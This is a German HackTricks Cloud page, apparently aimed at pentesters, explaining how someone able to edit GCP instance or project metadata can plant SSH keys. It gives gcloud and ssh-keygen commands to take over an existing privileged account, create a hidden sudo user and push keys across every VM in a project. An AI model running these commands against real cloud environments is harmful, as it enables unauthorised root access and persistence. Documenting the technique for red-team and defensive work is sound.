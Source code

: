 # GCP - Hinzufügen von benutzerdefinierten SSH-Metadaten

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegramm-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

## Ändern der Metadaten <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Die Änderung von Metadaten auf einer Instanz kann zu **erheblichen Sicherheitsrisiken führen, wenn ein Angreifer die erforderlichen Berechtigungen erlangt**.

### **Integration von SSH-Schlüsseln in benutzerdefinierte Metadaten**

Auf GCP führen **Linux-Systeme** häufig Skripte aus der [Python Linux-Gastumgebung für Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts) aus. Ein wichtiger Bestandteil davon ist der [Accounts-Daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), der dazu dient, **regelmäßig** den Instanz-Metadaten-Endpunkt auf **Aktualisierungen der autorisierten SSH-Public Keys** zu überprüfen.

Daher könnte ein Angreifer, der benutzerdefinierte Metadaten ändern kann, den Daemon dazu bringen, einen neuen öffentlichen Schlüssel zu finden, der verarbeitet und in das lokale System **integriert wird**. Der Schlüssel wird in die Datei `~/.ssh/authorized_keys` eines **bestehenden Benutzers hinzugefügt oder möglicherweise einen neuen Benutzer mit `sudo`-Berechtigungen erstellen**, abhängig vom Format des Schlüssels. Der Angreifer kann dann den Host kompromittieren.

### **SSH-Schlüssel zu einem vorhandenen privilegierten Benutzer hinzufügen**

1. **Vorhandene SSH-Schlüssel auf der Instanz überprüfen:**
- Führen Sie den Befehl aus, um die Instanz und ihre Metadaten zu beschreiben und vorhandene SSH-Schlüssel zu lokalisieren. Der relevante Abschnitt in der Ausgabe befindet sich unter `metadata`, speziell unter dem Schlüssel `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Achten Sie auf das Format der SSH-Schlüssel: Der Benutzername geht dem Schlüssel voraus, getrennt durch einen Doppelpunkt.

2. **Vorbereiten einer Textdatei für SSH-Schlüsselmetadaten:**
- Speichern Sie die Details von Benutzernamen und ihren entsprechenden SSH-Schlüsseln in einer Textdatei mit dem Namen `meta.txt`. Dies ist wichtig, um die vorhandenen Schlüssel zu erhalten und neue hinzuzufügen.

3. **Generieren eines neuen SSH-Schlüssels für den Zielbenutzer (`alice` in diesem Beispiel):**
- Verwenden Sie den Befehl `ssh-keygen`, um einen neuen SSH-Schlüssel zu generieren, wobei darauf geachtet wird, dass das Kommentarfeld (`-C`) mit dem Zielbenutzernamen übereinstimmt.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Fügen Sie den neuen öffentlichen Schlüssel zu `meta.txt` hinzu, wobei das Format aus den Metadaten der Instanz nachgeahmt wird.

4. **Aktualisieren der SSH-Schlüsselmetadaten der Instanz:**
- Wenden Sie die aktualisierten SSH-Schlüsselmetadaten auf die Instanz mit dem Befehl `gcloud compute instances add-metadata` an.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Zugriff auf die Instanz mit dem neuen SSH-Schlüssel:**
- Verbinden Sie sich mit SSH mit dem neuen Schlüssel mit der Instanz und greifen Sie auf die Shell im Kontext des Zielbenutzers (`alice` in diesem Beispiel) zu.
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Erstellen eines neuen privilegierten Benutzers und Hinzufügen eines SSH-Schlüssels**

Wenn kein interessanter Benutzer gefunden wird, ist es möglich, einen neuen Benutzer zu erstellen, dem `sudo`-Berechtigungen erteilt werden:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH-Schlüssel auf Projektebene <a href="#sshing-around" id="sshing-around"></a>

Es ist möglich, den SSH-Zugriff auf mehrere virtuelle Maschinen (VMs) in einer Cloud-Umgebung zu erweitern, indem **SSH-Schlüssel auf Projektebene angewendet** werden. Dieser Ansatz ermöglicht den SSH-Zugriff auf jede Instanz innerhalb des Projekts, die nicht explizit projektweite SSH-Schlüssel blockiert hat. Hier ist eine zusammengefasste Anleitung:

1. **SSH-Schlüssel auf Projektebene anwenden:**
- Verwenden Sie den Befehl `gcloud compute project-info add-metadata`, um SSH-Schlüssel aus `meta.txt` zu den Metadaten des Projekts hinzuzufügen. Diese Aktion stellt sicher, dass die SSH-Schlüssel auf allen VMs im Projekt erkannt werden, es sei denn, eine VM hat die Option "Projektweite SSH-Schlüssel blockieren" aktiviert.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH-Zugriff auf Instanzen mithilfe projektweiter Schlüssel:**
- Mit projektweiten SSH-Schlüsseln können Sie auf jede Instanz innerhalb des Projekts zugreifen. Instanzen, die projektweite Schlüssel nicht blockieren, akzeptieren den SSH-Schlüssel und gewähren Zugriff.
- Eine direkte Methode, um sich bei einer Instanz anzumelden, besteht darin, den Befehl `gcloud compute ssh [INSTANZ]` zu verwenden. Dieser Befehl verwendet Ihren aktuellen Benutzernamen und die auf Projektebene festgelegten SSH-Schlüssel, um den Zugriff zu versuchen.


# Referenzen
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories senden.

</details>
